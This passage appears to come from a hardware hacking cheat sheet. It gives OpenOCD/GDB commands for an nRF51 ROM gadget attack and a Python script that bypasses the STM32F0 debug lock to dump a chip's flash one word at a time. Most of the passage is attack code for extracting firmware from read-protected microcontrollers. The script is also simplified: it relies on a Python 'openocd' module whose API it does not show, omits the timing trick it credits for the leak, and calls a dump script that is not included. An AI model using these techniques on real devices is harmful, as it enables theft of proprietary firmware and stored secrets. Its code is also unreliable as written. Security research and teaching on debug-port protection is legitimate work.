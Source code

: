 
# PART V: IoT & HARDWARE HACKING (From MicrocontrollerExploits)

## Firmware Extraction & Analysis

### JTAG/SWD Exploitation

#### nRF51 ROM Gadget Attack
```bash
# Connect via OpenOCD
openocd -f interface/jlink.cfg -f target/nrf51.cfg

# Connect GDB
arm-none-eabi-gdb
target remote localhost:3333

# Find gadget in ROM that reads memory
# Example gadget: LDR R0, [R1]; BX LR
# Set R1 to address you want to read
set $r1 = 0x00000000
stepi
# R0 now contains the value at address 0x00000000

# Script to dump entire flash
python dump_nrf51.py
```

#### STM32F0 One-Word Leak
```python
#!/usr/bin/env python3
# Exploit STM32F0 debug lock - read one word per connection

import openocd
import struct

def read_word(address):
    # Connect to OpenOCD
    ocd = openocd.OpenOCD()
    ocd.connect()
    
    # Issue read command
    # Due to timing, only first word is readable
    word = ocd.read_memory(address, 4)
    
    ocd.disconnect()
    return word

# Dump entire flash one word at a time
flash_base = 0x08000000
flash_size = 0x10000  # 64KB

firmware = bytearray()

for addr in range(flash_base, flash_base + flash_size, 4):
    print(f"Reading 0x{addr:08x}...")
    word = read_word(addr)
    firmware.extend(word)
    
with open('firmware_dump.bin', 'wb') as f:
    f.write(firmware)

```